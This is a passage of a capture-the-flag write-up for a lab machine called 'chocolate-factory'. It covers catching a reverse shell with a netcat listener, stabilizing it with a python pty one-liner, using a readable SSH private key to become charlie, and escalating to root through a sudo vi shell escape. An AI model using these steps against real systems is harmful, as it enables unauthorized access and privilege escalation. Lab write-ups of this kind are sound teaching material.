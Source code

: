 ```bash
```
And a simple Netcat listener:
```bash
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.21.63.26] from (UNKNOWN) [10.10.108.138] 47550
whoami
www-data
hostname
chocolate-factory
```
Before moving around perfom some stabilization:
```python
python -c 'import pty;pty.spawn("/bin/bash")'
```
Trying to get the user flag wasn't possible so we need to escalate to charlie first.
```bash
$ cat user.txt
cat: user.txt: Permission denied
```

## Privilege Escalation
While searching for a way to get `charlie` I found the following files:
```bash
-rw-r--r-- 1 charlie charley 1675 Oct  6  2020 teleport
-rw-r--r-- 1 charlie charley  407 Oct  6  2020 teleport.pub
$ cat teleport
-----BEGIN RSA PRIVATE KEY-----
[--- removed for readability ---]
-----END RSA PRIVATE KEY-----
```
I downloaded the rsa private key to use it for a ssh connection:
```bash
$ chmod 600 priv_key
$ ssh -i priv_key charlie@10.10.108.138
charlie@chocolate-factory:/$ whoami
charlie
```
This is how I was able to get the user flag, now get root.
I started by running `sudo -l` with the following result:
```bash
$ sudo -l
Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
```
... a quick search in <a href="https://gtfobins.github.io/gtfobins/vi/">GFTOBins</a> made me root:
```bash
$ sudo vi -c ':!/bin/sh' /dev/null
#
# whoami
root
# cd /root
# ls
root.py
```
Interesting no root flag, but a root.py script:
```python
# cat root.py
from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
```